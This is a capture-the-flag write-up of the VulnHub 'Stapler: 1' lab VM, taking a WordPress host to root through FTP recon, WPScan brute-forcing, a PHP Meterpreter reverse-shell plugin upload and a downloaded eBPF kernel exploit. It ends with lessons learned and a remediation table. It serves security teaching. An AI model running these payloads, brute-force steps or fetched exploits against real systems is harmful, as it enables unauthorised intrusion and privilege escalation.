





# Stapler: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.56.X (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux (Ubuntu 16.04) |
| **Flag** | `/root/flag.txt` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/stapler-1,150/) |

## Attack Summary

Network scan → FTP anonymous login + SSH/SMB recon → WordPress on port 12380 (HTTPS) → WPScan user enum → password brute-force (John) → wp-admin → PHP Meterpreter via plugin upload → eBPF kernel exploit (CVE-2016-4557) → root.

## Methodology

1. Network discovery and full port scan
2. FTP anonymous login — find hints
3. WordPress enumeration on port 12380
4. Brute-force WordPress password for user John
5. Upload PHP Meterpreter as a plugin
6. Catch reverse shell
7. Kernel exploit (eBPF double-fetch) for root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
nmap -p- -A 192.168.56.X
```



Key open ports:
- **21** — FTP (vsftpd, anonymous login allowed)
- **22** — SSH
- **80** — HTTP (Apache)
- **139/445** — SMB
- **12380** — HTTPS (WordPress)

---

## Step 2: FTP Anonymous Login

```bash
ftp 192.168.56.X
# anonymous / anonymous

ls
get note
cat note
```

The note hints at users and paths. `robots.txt` on port 12380 discloses `/admin112233` and `/blogblog`.

---

## Step 3: WordPress Enumeration

```bash
wpscan --url https://192.168.56.X:12380/blogblog/ \
  --enumerate at --enumerate ap --enumerate u \
  --disable-tls-checks
```



Found multiple users including **John**, **Elly**, **Peter**, **barry**, **heather**, etc.

---

## Step 4: Brute-Force WordPress Password

```bash
wpscan --url https://192.168.56.X:12380/blogblog/ \
  --username John \
  --wordlist /usr/share/wordlists/rockyou.txt \
  --disable-tls-checks
```

Credential found: **John : incorrect** (the walkthrough proceeds after obtaining valid credentials via login testing).

Login to `https://192.168.56.X:12380/blogblog/wp-admin/`.



---

## Step 5: PHP Meterpreter via Plugin Upload

Generate the payload:

```bash
msfvenom -p php/meterpreter/reverse_tcp \
  LHOST=192.168.56.1 LPORT=4444 -f raw > shell.php
```

Package as a ZIP (WordPress plugin format):

```bash
zip plugin.zip shell.php
```

Upload via **Plugins → Add New → Upload Plugin**.

Start Metasploit listener:

```bash
msfconsole -q
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444
exploit
```

Activate the plugin to trigger the shell.



---

## Step 6: System Info and TTY Upgrade

```bash
sysinfo
shell
python -c 'import pty;pty.spawn("/bin/bash")'
lsb_release -a
# Ubuntu 16.04
uname -a
# Linux 4.4.0-21-generic
```

---

## Step 7: Privilege Escalation — eBPF Kernel Exploit

```bash
cd /tmp
wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/39772.zip
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput
# id → uid=0(root)
```

```bash
cd /root
ls
cat flag.txt
```



---

## Lessons Learned

1. **FTP anonymous login** exposes internal notes and hints about the attack surface
2. **WordPress on non-standard port** — always scan all ports, not just 80/443
3. **Plugin upload** allows RCE with only admin credentials — restrict to trusted users
4. **Outdated kernel** (4.4.0-21) was unpatched; eBPF double-fetch was publicly exploitable
5. **robots.txt** again disclosed paths worth investigating

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| FTP anonymous login | Disable or require authentication |
| Weak WordPress password | Enforce strong passwords + 2FA |
| Plugin upload enabled | Restrict to trusted admins; `define('DISALLOW_FILE_MODS', true)` |
| Outdated kernel | Apply security updates regularly |
| robots.txt disclosure | Remove sensitive paths |
